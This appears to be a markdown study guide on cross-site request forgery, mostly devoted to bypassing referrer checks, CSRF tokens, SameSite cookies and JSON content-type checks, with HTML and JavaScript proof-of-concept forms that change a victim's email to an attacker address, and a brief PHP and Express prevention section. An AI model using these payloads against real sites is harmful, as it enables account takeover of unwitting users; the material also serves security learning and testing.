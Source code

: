 # CSRF (Cross-Site Request Forgery) Guide

---

## What is Cross-Site Request Forgery (CSRF/XSRF)?

- Imagine you're logged into a website (e.g., banking site). At the same time, you visit a malicious site.
- The malicious site can make requests to the banking site **on your behalf**, without your knowledge.
- **Example Attack:** Change your email, reset password, or transfer funds.
- If the victim is an admin, the attacker could takeover the entire system.

---

## Protections Against CSRF

1. **Referrer Header Check**
2. **CSRF Tokens**
3. **SameSite Cookies**
4. **JSON Format Validation**

---

## Bypassing CSRF Protections

### 1. Referrer Header Bypass

#### Case (1): Remove Referrer
- Some apps don't validate if referrer is missing.

#### Case (2): Subdomain Trick
- If referrer is loosely validated, let's say the target is `account.example.com`, then try setting the Referrer to `account.exampleevil.com`. If it works, buy the domain `exampleevil.com`, create a subdomain named account, and continue your attack.
```http
Referrer: https://evil.com         → Error.
Referrer: https://exampleevil.com  → Success. 
```
- Buy `exampleevil.com` and create `account.exampleevil.com`.

#### Case (3): Using `@` or `/` to Obfuscate
```http
Referrer: https://evil.com/file@https://example.com
```
- Alternate characters: `|`, `/`, `?`, `#`
  - Example:
  	```http
   	Referrer: https://evil.com/file     # Error.
   	Referrer: https://evil.com/file?//victim.com     # Success.
	```
   
#### HTML PoC with Referrer:
```html
<html>	
<head><meta name="referrer" content="unsafe-url"></head>   <!-- Means that you can send the referrer via HTTP or HTTPS -->
<body>
	<form name="hacker" method="POST" action="https://account.example.com/change_email">
		<input type="hidden" name="email" value="attacker@example.com">   <!-- The inputs are depending on the target variables  -->
	</form>
<!-- Referrer function “pushState”, If we're gonna type # instead of / We just will add # after / like that: /#file -->
	<!-- This function “pushState” takes whatever comes after evil.com -->
	<script>
			history.pushState('','','/file@account.example.com')
			document.form[0].submit();
	</script>
</body>
</html>
```

#### Case (4): Fake Parameter in Referrer
```html
<script>
  history.pushState('', '', '/?param=https://example.com');
  document.forms[0].submit();
</script>
```

#### • Case (5): Remove Referrer with `no-referrer`
```html
<meta name="referrer" content="no-referrer">
```

---

### 2. CSRF Token Bypass Techniques

- Remove the `csrf_token` parameter.
- Use random invalid token (`length ±1`).
- Slightly modify the token (spoof).
- Use token from attacker session.
- Change request method from POST → GET.
- Remove custom header (if token sent via header).
- Guess token (weak randomness).
- Set value to `"null"` or use null bytes.
- Steal token via XSS.
- Intercept and replay token from HTTP traffic.
- Exploit static part of tokens (`abc123XYZ`, `abc456XYZ`).
- Use type juggling (e.g., `0e123456` = `0` in PHP).

---

### 3. SameSite Cookies Bypass

#### • Types:

- **Strict**: Blocked unless same site origin.
- **Lax**: Allows top-level GET requests.
- **None**: Allows all but requires `Secure` (HTTPS).

#### • Detect via response headers:
```
Set-Cookie: session=abc; SameSite=Strict; Secure
```

#### • Strict Bypass:
- Look for open redirect or path traversal in JS.
```js
window.location = blogPath + '/' + postId;
```
Payload:
```html
<form method="POST" action="https://example.com?postId=../../../../change_email">
  <input type="hidden" name='{"test":"x' value='y", "new_email":"attacker@gmail.com"}'/>
</form>
```

#### • Lax Bypass:
- Must use GET.
- Requires user to click.
```html
<script>
  location = "https://example.com/change_email?email=attacker@example.com&_method=POST";
</script>
```

---

### 4. JSON Format Bypass

#### • Case (1): Change Content-Type
- From: `application/json`
- To: `application/x-www-form-urlencoded` or `text/plain`

```html
<form method="POST" action="https://example.com/phone.json" enctype="application/x-www-form-urlencoded">
  <input type="hidden" name='{"test":"x' value='y", "new_email":"attacker@gmail.com"}'/>
</form>
```

#### • Case (2): Only change `Content-Type`, keep JSON format
```html
<form method="POST" action="https://example.com/phone.json" enctype="text/plain">
  <input type="hidden" name='{"test":"x' value='y", "new_email":"attacker@gmail.com"}'/>
</form>
```

#### • Case (3): Change Method from PUT/PATCH → POST
- Replace JSON with URL-encoded or text body.

```http
PATCH → POST
Content-Type: application/json → text/plain
```

---

## ▪ Preventing CSRF

### • PHP:
```php
if ($_POST['csrf_token'] !== $_SESSION['csrf_token']) {
    die("Invalid CSRF Token");
}
```

### • Express.js:
```js
app.use(session({
  secret: "your_secret",
  resave: false,
  saveUninitialized: true,
  cookie: { sameSite: "Strict", secure: true }
}));
```
